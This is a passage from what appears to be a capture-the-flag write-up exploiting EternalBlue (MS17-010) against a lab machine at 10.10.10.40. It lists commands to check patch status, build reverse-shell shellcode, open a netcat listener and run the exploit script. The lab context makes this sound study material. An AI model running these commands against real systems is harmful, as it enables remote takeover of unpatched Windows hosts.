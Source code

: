 ![](images-blue/manual3.png)

**Commands:**
- `python3 eternal_checker.py 10.10.10.40`
- `./shell_prep.sh`
- `nc -lnvp 1234`
- `./eternalblue_exploit7.py 10.10.10.40 shellcode/sc_x64.bin`

Initially, I execute the `eternal_checker.py` to see if the target is patched or not, and after that we will make a malicious binary file that will give reverse connection to our listener. This tool has a `shell_prep` bash script that creates a binary file with the preferred options.

![](images-blue/manual4.png)